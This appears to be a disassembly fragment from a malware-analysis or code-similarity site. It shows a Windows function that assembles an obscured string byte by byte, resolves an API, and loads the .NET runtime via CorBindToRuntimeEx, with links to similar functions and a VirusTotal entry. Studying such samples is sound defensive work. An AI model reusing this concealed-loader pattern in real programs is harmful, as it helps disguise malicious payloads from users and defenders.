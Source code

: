 mov byte[esp+0x2d],0x76
mov byte[esp+0x2e],0xb9
mov byte[esp+0x2f],0x34
mov byte[esp+0x30],0xbf
mov byte[esp+0x31],0x1e
mov byte[esp+0x32],0xe7
mov byte[esp+0x33],0x78
mov byte[esp+0x34],0x98
mov byte[esp+0x35],0xe9
mov byte[esp+0x36],0x6f
mov byte[esp+0x37],0xb4
mov byte[esp+0x38],0
call fcn.00401650
add esp,8
push eax
push edi
call dword[sym.imp.KERNEL32.dll_GetProcAddress]
mov dword[0x423480],eax
xor edi,edi
push 3
lea eax,[esp+0x170]
push esi
lea ecx,[esp+0x170]
mov dword[esp+0x84],edi
mov dword[esp+0x4c],edi
mov dword[esp+0x48],edi
mov byte[esp+0x3f],0
mov dword[esp+0x170],eax
call fcn.004018d0
lea ecx,[esp+0x7c]
push ecx
push 0x41b230
push 0x41b220
push edi
push 0x41b298
push str.v2.0.50727
call sub.mscoree.dll_CorBindToRuntimeEx
test eax,eax
jl 0x4021c3
mov eax,dword[esp+0x7c]
mov edx,dword[eax]
push eax
mov eax,dword[edx+0x28]
call eax
test eax,eax
jl 0x4021c5
mov eax,dword[esp+0x44]
cmp eax,edi
je 0x402175
mov ecx,dword[eax]
mov edx,dword[ecx+8]
push eax
call edx
mov eax,dword[esp+0x7c]
lea edx,[esp+0x44]
mov dword[esp+0x44],edi
mov ecx,dword[eax]
push edx
push eax
mov eax,dword[ecx+0x34]
call eax
mov esi,dword[esp+0x44]
cmp esi,edi
jne 0x40219c

[similar_1_ref]: /report/fcn.00474f00@4fe6510221c33bf023f6abed461fc13f
[similar_2_ref]: /report/fcn.30781b10@e0efd357fccc8f4e2c059b0b54118ba8
[similar_3_ref]: /report/fcn.00466040@4fe6510221c33bf023f6abed461fc13f
[similar_4_ref]: /report/fcn.004102e0@4fe6510221c33bf023f6abed461fc13f
[similar_5_ref]: /report/fcn.64076e50@07e4412910bcf0f5969ef64c44eecb2d
[virustotal_ref]: https://www.virustotal.com/gui/file/d9409903542212823b7b4709144a636b